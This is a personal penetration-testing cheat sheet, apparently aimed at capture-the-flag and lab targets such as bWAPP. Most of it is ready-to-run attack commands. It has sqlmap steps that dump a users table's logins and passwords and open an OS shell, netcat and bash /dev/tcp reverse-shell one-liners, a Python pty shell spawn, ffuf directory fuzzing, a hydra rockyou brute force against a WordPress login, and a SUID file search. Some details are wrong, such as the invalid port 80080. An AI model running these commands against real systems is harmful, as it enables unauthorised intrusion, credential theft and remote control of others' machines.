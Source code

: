 # Infosec
My InfoSec Cheat sheet and stuff



# scan local network

arp-scan --local

# sqlmap 

------


POST data (if data not in URL)
sqlmap --url="http://bee-box/bWAPP/slqi_1.php?title=iron" --dbs
--dbs info is found using the -hh option of sqlmap
Add --cookie="security_level=0;PHPSESSID=xxxxxx"
the bwapp app requires it
If POST then add --data="title=iron&action=search"
Input data and parameters are usually found in the request BODY
So we have a good injection point and even enumerated the name of the database,
but how do we get at the data?
Enumerate the Table names
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --tables
Enumerate Columns
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users --
columns
Dump database data from table 'users' from columns 'login' and 'password'
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP -T users -C
login,password --dump
Any other useful tricks?
How about COMMAND EXECUTION?
sqlmap --url="http://bee-box/bWAPP/sqli_1.php?title=iron" -D bWAPP --os-shell


----------

# nc shell

----------

nc -nvlp 9999 (attacker)

nc -nv -e /bin/bash IP PORT  OR  bash -c "bash -i >& /dev/tcp/10.10.15.94/443 0>&1"


---
# photos and metadata

exif 

exiftool 

steghide info

binwalk - tool for searching binary images for embedded files and executable code



---
# SPAWN PY SHELL

import pty
pty.spawn("/bin/sh")


-
# start quick python http server 
python3 -m http.server 80080

# fuff coz i hate gobuster 
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.142.184/FUZZ -fs 42 -c -v 

# hydra brute force WP

hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.36.107 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V

# Find files 

find / -type f -perm -04000 -ls 2>/dev/null


